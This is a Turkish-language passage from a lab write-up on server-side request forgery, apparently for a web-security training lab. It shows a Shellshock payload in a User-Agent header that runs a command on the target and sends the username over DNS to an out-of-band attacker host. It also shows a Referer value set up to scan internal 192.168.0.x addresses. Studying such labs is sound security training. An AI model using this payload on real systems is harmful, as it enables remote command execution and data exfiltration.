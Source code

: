 Burada yazmamız gereken payload şu şekildedir;

```python
() { :; }; /usr/bin/nslookup $(whoami).iiqvmswbzrpcvswekawryb00mkrn5lfha.oast.fun

-------------------------------------------------------------------------
GET /product?productId=2 HTTP/2
Host: 0a19009b0424289883eb883000fb00c9.web-security-academy.net
Cookie: session=7a48GQPaJ004YQ4EYMBrBdZ1mfBrWIcI
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).lvkdg0my1mllm1w38os79x44hvnqbmzb.oastify.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://192.168.0.§1§:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
```

Bu sayede gönderdiğimiz request ile hedef sistemde istediğimiz bilgiyi elde etmiş bulunmaktayız. 

![Untitled](0x16%20Server-Side%20Request%20Forgery%20Nedir%20d3c4b2ebcb764d66b80606cea77bf5a5/Untitled%2037.png)
